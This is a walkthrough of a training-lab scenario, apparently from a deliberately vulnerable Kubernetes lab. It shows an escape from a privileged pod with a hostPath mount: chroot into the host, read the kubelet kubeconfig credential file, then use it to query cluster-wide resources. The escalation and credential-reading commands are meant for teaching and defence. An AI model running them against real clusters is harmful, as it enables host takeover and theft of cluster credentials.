 # Container escape to access host system

## Scenario Information

Most of the monitoring, tracing and debugging software require to run with extra privileges and capabilities. Here in this scenario, we will see a pod with extra capabilities and privileges including HostPath allows us to gain access to host system and provide Node level configuration to gain complete cluster compromise.

* To get started with the scenario, navigate to [http://127.0.0.1:1233](http://127.0.0.1:1233)

![Scenario 4 Welcome](images/sc-4-1.png)

## Scenario Solution

After performing the analysis, we identified that this container has complete privileges of host system and allowed privilege escalation. As well as `/host-system` is mounted from the host system.

```bash
ls /
ls /host-system/
```

![Scenario 4 host system](images/sc-4-2.png)

* Gaining the host system privileges access `chroot`

```bash
chroot /host-system bash
docker ps
```

![Scenario 4 chroot host](images/sc-4-3.png)

* Accessing the node level kubelet Kubernetes configuration

```bash
cat /var/lib/kubelet/kubeconfig
```

![Scenario 4 kubelet config](images/sc-4-4.png)

> Download the kubectl locally to use this config and perform operations

* Using the kubelet configuration to perform Kubernetes cluster wide resources

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

![Scenario 4 get kube-system](images/sc-4-5.png)

* From here we can go beyond by performing the lateral moment and post exploitation

## Miscellaneous

TBD
